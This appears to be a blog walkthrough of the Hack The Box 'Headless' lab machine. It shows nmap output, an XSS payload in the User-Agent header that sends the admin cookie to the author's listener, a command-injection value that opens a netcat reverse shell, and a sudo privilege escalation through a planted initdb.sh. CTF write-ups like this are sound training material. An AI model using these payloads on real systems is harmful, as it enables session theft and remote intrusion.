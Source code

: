 ```yaml
---
title: "Headless from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Headless from HTB
[page](https://app.hackthebox.com/machines/Headless)
`Nmap`gave this:
```bash
$ nmap -sCV --min-rate 4000 -p- 10.10.11.8
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-07 23:00 +04
Warning: 10.10.11.8 giving up on port because retransmission cap hit (10).
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 26.55% done; ETC: 23:01 (0:00:36 remaining)
Nmap scan report for 10.10.11.8
Host is up (0.089s latency).
Not shown: 57469 closed tcp ports (conn-refused), 8065 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nothing unusual.
I went to the site and it displayed time and after that site will be live. We'll `imma say i ain't waitin allat`(trash `ahh` joke) And started exploiting. There is `/support`directory, which allows me to send message. I tried `XSS`by typing
```
<script>alert(1)</script>
```
In comment section.
![](/assets/images/Screenshot from 2024-08-07 23-35-52.png)
I was caught doing that.
But what if i tried `Intercepting`with `BurpSuite`? Will it work?  Yeah it will work.
I'm tired of typing this `Walktroughs`so i'm gonna go straight to point:
```python
python3 -m http.server 8000 # start simple server
```
Then modify `BurpSuite`like this while intercept is on:
```
POST /support HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 98
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: <script>var i=new Image(); i.src="http://10.10.16.3:8000/?cookie="+btoa(document.cookie);</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en
Referer: http://10.10.11.8:5000/support
Accept-Encoding: gzip, deflate, br
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Connection: keep-alive

fname=aa&lname=bb&email=test%40test.com&phone=1231&message=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```
If you'r lazy to read here is modified thing:
```bash
User-Agent: <script>var i=new Image(); i.src="http://10.10.16.3:8000/?cookie="+btoa(document.cookie);</script>
```
This will show me `admin cookie`in my python server.
Forward that and wait for second cookie:
```python
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.16.3 - - [07/Aug/2024 23:15:49] "GET /?cookie=aXNfYWRtaW49SW5WelpYSWkudUFsbVhsVHZtOHZ5aWhqTmFQRFdudkJfWmZz HTTP/1.1" 200 -
10.10.11.8 - - [07/Aug/2024 23:16:26] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```
This is the `admin cookie`encoded with `base64`. Decode it:
```bash
$ echo "aXNfYWRtaW49SW5WelpYSWkudUFsbVhsVHZtOHZ5aWhqTmFQRFdudkJfWmZz" | base64 -d^C
$ echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```
`is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0`
Go to site and in `inspect > application > cookies`modify the `is_admin`cookie with this:
`ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0`.
After that use  `gobuster dir` for directory searching and you will find `dashboard`. With cookie already modified click `Generate report`and with `BurpSuite Intercept on` Add the `NetCat`script:
```
date=2023-09-15;nc+10.10.16.3+1234+-e+/bin/bash
```
This will give me connection on `nc -nlvp 1234`:
```bash
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.8] 36136
script /dev/null -c bash
Script started, output log file is '/dev/null'.
dvir@headless:~/app$ cat /home/dvir/user.txt
c03dcd735ec55ef102130cbf0336ef6a
```
***
User Flag is : c03dcd735ec55ef102130cbf0336ef6a
***
`Sudo -l`tells me that i can run `/usr/bin/syscheck`with `root`permission and i can also read it;
```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```
In this code all we need is the last line of codes.
```bash
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
```
This check if some database named `initdb.sh`is running and if not it starts it in the same directory. `./ means in to run some file in current directory`
Do this:
```bash
nano initdb.sh
#!/bin/bash
/bin/bash
```
Then make it executable
```bash
chmod +x initdb.sh
```
And then execute the code.
```bash
sudo /usr/bin/syscheck
```
This will start interactive `bash`shell where you will be `root`and can read the flag.
***
Root Flag is : I deleted It :D
***
![](/assets/images/Screenshot from 2024-08-07 23-28-22.png)
